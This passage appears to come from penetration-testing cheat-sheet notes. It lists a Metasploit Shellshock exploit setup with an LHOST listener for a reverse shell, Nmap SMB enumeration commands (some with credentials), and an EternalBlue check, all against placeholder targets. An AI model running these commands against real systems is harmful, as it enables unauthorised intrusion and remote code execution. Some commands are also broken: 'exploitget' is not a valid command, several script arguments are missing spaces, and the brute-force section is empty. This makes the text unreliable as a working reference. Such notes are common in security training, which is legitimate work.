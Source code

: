 ```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS <TARGET_IP>
set LHOST <eth1>
set TARGETURI /gettime.cgi
exploitget
```

####Bruteforce 
```bash

```

# SMB - 445 or 139 (Netbios)

#### Nmap
```bash
sudo nmap -p 445 -sV -sC -O <TARGET_IP>
nmap -sU --top-ports 25 --open <TARGET_IP>

nmap -p 445 --script smb-protocols <TARGET_IP>
nmap -p 445 --script smb-security-mode <TARGET_IP>

nmap -p 445 --script smb-enum-sessions <TARGET_IP>
nmap -p 445 --script smb-enum-sessions --script-args smbusername=<USER>,smbpassword=<PW> <TARGET_IP>

nmap -p 445 --script smb-enum-shares <TARGET_IP>
nmap -p 445 --script smb-enum-shares --script-args smbusername=<USER>,smbpassword=<PW> <TARGET_IP>

nmap -p 445 --script smb-enum-users --script-args smbusername=<USER>,smbpassword=<PW> <TARGET_IP>

nmap -p 445 --script smb-server-stats --script-args smbusername=<USER>,smbpassword=<PW> <TARGET_IP>

nmap -p 445 --script smb-enum-domains--script-args smbusername=<USER>,smbpassword=<PW> <TARGET_IP>

nmap -p 445 --script smb-enum-groups--script-args smbusername=<USER>,smbpassword=<PW> <TARGET_IP>

nmap -p 445 --script smb-enum-services --script-args smbusername=<USER>,smbpassword=<PW> <TARGET_IP>

nmap -p 445 --script smb-enum-shares,smb-ls --script-args smbusername=<USER>,smbpassword=<PW> <TARGET_IP>

nmap -p 445 --script smb-os-discovery <TARGET_IP>

nmap -p445 --script=smb-vuln-* <TARGET_IP>

# ETERNALBLUE
nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>

```
